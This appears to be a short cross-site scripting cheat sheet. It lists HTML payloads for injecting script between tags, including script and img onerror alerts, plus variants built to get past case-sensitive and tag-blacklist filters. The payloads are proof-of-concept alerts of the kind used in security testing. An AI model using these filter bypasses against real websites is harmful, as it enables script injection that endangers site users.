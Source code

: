 ## XSS between HTML tags
 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

**EX**:
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### Bypass

#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```
